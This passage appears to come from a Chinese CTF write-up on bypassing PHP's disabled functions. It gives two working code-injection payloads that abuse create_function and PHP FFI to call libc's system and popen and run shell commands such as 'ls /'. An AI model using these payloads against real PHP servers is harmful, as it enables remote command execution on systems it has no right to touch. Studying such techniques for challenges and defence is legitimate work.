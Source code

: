 ![image-20231022220901256](assets/image-20231022220901256.png)

### **利用FFI调用C库的system函数**

```php
/?fighter=create_function&fights=&invincibly=;}$ffi=FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/res.txt");echo file_get_contents("/tmp/res.txt");/*
```

在C库中的system函数执行没有回显，这里写入到tmp等有写入权限的目录中，最后再用file_get_contents来查看执行结果。但是在这道题执行之后似乎无效

### **利用FFI调用C库的popen函数**

 C库的system函数调用shell命令，只能获取到shell命令的返回值，不能获得shell命令的输出结果，如果想获取输出结果可以使用popen函数来实现

```
FILE *popen(const char* command,const char* type);
```

popen()函数会调用foke()产生子进程，然后从子进程中调用/bin/sh -c来执行参数command的指令

参数type可使用"r"表示读取，"w"代表写入。

 依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

以下利用C库的popen()函数来执行命令，但是要读取到结果还需要C库的fgetc等函数。

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls / -lah","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/*
```
